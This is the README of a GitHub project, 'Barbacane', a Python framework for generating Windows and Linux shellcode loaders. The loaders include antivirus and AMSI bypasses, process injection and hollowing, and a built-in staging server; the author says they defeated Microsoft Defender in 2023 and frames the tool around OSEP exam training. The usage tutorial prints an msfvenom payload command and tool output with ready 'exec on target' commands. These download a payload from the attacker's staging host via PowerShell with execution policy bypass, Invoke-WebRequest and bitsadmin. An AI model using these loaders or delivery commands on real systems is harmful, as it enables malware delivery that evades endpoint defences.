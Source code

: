 
```
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
VBA/Powershell/C/++/# Shellcode loader framework +
```
![Python](https://img.shields.io/badge/python-3.11-blue.svg)
![Release](https://img.shields.io/badge/release-1.0-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

A barbican (barbacane [old french], bashoura [arabic]) is a fortified gateway situated over a gate or bridge, which was used for defensive purposes. An ominous doorway to a world of dreams and occult myths.

## [+] Overview

#Barbacane is a **framework in Python3** designed to create as you go different types of **shellcode loaders in Powershell, C++, C#, C and VBA from a command-line interface (CLI)**. Most of the generated shellcode loaders are Windows-oriented, but one of them is dedicated to Linux machine.

In addition, Barbacane can run on demand a web server to act as a staging server. Every loaders comes with **basic anti-virus bypasses** designed to reliably defeat low-grade anti-virus (AV).

### Philosophy

When starting my OSEP journey, I realized that automating the shellcode loader generation process was mandatory to succeed during the exam. In my mind, the process of manually creating a new code from a second-hand template was far too random and caused unwanted mistakes that I didn't want to track during the exam. Barbacane came from this intuition. 

Knowing this background, keep in mind the **following key-facts** before using this framework:
- Barbacane has been organically designed following my research and OSEP lessons. Consequently, the **code suffers from a lack of design, flow control, error mangament and optimization** as well as it could be more Python-ish. Eventually, you will find **some missing features**. Nonetheless, as far as I'm concerned, it works and provide some valued reliabilty during my journey through the OSEP labs. 
- Every template **contains basic AV bypasses effective against low to intermediate-level anti-virus**. Every template succeeded to bypass a mid-2023 Microsoft Defender. If you want to be stealthier, more research should be performed to improve the payloads. Have fun.
- Barbacane **doesn't compile payloads on demand**. When starting the project, I quickly realized that dealing with this issue would be to hard to overcome. Instead, I recommand to use Barbacane closely with a virtual machine (VM) on Windows and a shared folder. The setup of the VM is your responsability, but it should not take much effort to run properly a Windows with csc and cli installed.
### Features

As a framework, Barbacane offers the following generation capabilities:

- **Shellcode loader in C++** crafted as a PE (.exe) or as a shared library (.dll), both for x64 architecture, including:
	- static obfuscation based on XOR encryption
	- behavior analysis bypass, including IAT obfuscation, and prime-number calculation
	- strings from the Edge binary are added to reduce the level of entropy
	
- **Shellcode runner in c crafted as an ELF file for x64 linux system**  including:
	- static obfuscation based on a XOR encryption
	
- **Shellcode loader in C#** crafted in PE (.exe) or shared library (.dll), both for x64 architecture, including:
	- static obfuscation based on Caesar cypher encryption
	- behavior analysis bypass including sleep timers and non-emulated API detection
	- **on-demand process injection and hollowing capabilities**
	
- **Shellcode loader in Powershell** for x64 architecture which includes two options of AMSI bypasses:
	- corruption of the context structure that is created by calling _AmsiInitialize_
	- manipulation of a result variable set by _AmsiInitialize_ (coming soon)

- **Shellcode loader in VBA based on two different scenario:
	- a classic shellcode loader fully made in VBA that includes two AV bypass techniques:
		- static obfuscation based on Caesar cypher encryption
		- behavior analysis bypass based on a sleep timer
	- a VBA runner based on WMI that executes a command on the targeted system, such as a powershell payload (why not the runner in Powershell we displayed earlier?) it includes a static obfuscation based on masquerading the variables and Caesar cypher encrypting some key-word often flagged as malicious.

- On demand, a **Python3 web server may be initialized to be used as a staging server**. it includes preformatted living-off-the-land commands to download the craddle

## [+] Installation

### Setup:

From your client machine with Python3 up and running:

```bash
# after downloading the project and paste it in /opt (for instance)
cd /opt/barbacane
# Setting a virtualenv
sudo virtualenv barbacane-venv 
source barbacane-venv/bin/activate
# Installing required package
pip3 install colorama
```

## [+] Usage

>[!WARNING]
>If you want to generate a functional loader from Barbacane, **you must use a raw binary shellcode as payload**. No other format is recognized by the framework. You are warned.

First time you run Barbacane ? Fair enough. From the downloaded project, type the following command to learn how to use Barbacane:

`$ python3 barbacane.py --help`

Alternatively, you can follow this short tutorial demonstrating the generation of a simple C++ shellcode loader for Windows:

- **Step1:** generate a payload in raw binary:

`$ msfvenom --platform windows --arch x64  -p windows/x64/messagebox -f raw > /tmp/pld.bin`

- **Step2:** use Barbacane to create a shellcode loader source code

```bash
$ python3 barbacane.py -format C++ -host 192.168.56.1 -port 8080 -pld payload/pld.bin -key pass -name output --stagging
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \ 
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
+ VBA/Powershell/C/++/# Shellcode loader framework +

+ -- [ Every grave robber gains +30 dodge ] -- +
[*] WARNING: you are using a test payload used for debugging purpose
[*] Creating a c++ Windows shellcode runner (IAT obfuscation, prime-number bypass, adding strings to reduce level of entropy)
[+] Custom c++ template for PE generated
[+] Payload found at payload/pld.bin
[+] Payload XOR encrypted with the following key: pass
[+] Payload nested
[+] The template is available at output/output.cpp
[+] >>> Compile on Windows VM using x64VS cli: cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcoutput/output.cpp /link /OUT:output/output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
[+] Exec on target:
 >>> powershell -ep bypass -nop -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/output.exe', 'output.exe')
 >>> powershell -ep bypass -nop -c Invoke-WebRequest -Uri http://192.168.56.1:8080/output.exe -OutFile output.exe
 >>> bitsadmin /transfer pwn /download http://192.168.56.1:8080/output.exe output.exe
[*] HTTP server serving at: http:// 192.168.56.1 8080
```

- **Step3:** compile on a dedicated VM using the command submitted by Barbacane and a shared folder where the root folder is ``barbacane/``:

![Pasted image 20240329221651](https://github.com/hex-a-dec/barbacane/assets/152536937/b839e8ff-c753-447d-bd4d-2a1f209feca1)

- **Step4:** download the payload the way you like, execute it and enjoy the view of profit:

![Pasted image 20240330090300](https://github.com/hex-a-dec/barbacane/assets/152536937/d4a3558b-9bc3-49a3-a884-012c45a265da)


Other examples you might want to know:

- generate a shellcode loader as a DLL for a Windows x64:
`$ python3 barbacane.py -format C++ -name mypayload --dll

- generate a shellcode injector in c# for Windows x64 and specify the process to tamper:
`$ python3 barbacane.py -format C# -name payload --inject -pid explorer -mode inject`

- generate a shellcode loader in Powershell for Windows x64 and run a staging server on port 8080
`$ python3 barbacane.py -format Powershell -name payload --staging -host 192.168.56.1 -port 8080`

All templates used by the framework are available in the ``/templates`` folder. The generated payloads are availlable in ``/output`` folder

## [+] Credits

A special thanks goes to:
- [vanmieghem.io - A blueprint for evading industry leading endpoint protection in 2022](https://vanmieghem.io/blueprint-for-evading-edr-in-2022/), still a masterclass in 2023. i learnt so much reading this blog article
- [Sektor7 - RED TEAM Operator: Malware Development Essentials Course](https://institute.sektor7.net/red-team-operator-malware-development-essentials) A great but not-free resource to jump into the development of shellcode.
- [Offsec - OSEP course](https://www.offsec.com/courses/pen-300/), well Barbacane is all about this course, right ?
- I must admit ChatGPT3.5 extensively helped me to write some cryptographic functions in Python. When it comes to code software, being backed by an AI increases my efficiency. I mean AI are not enough mature to code things by themselves without human supervision and ex-post control , but AI are definitely useful to help dealing with a particular point of a greater issue. Having said that, thank you CG ;)
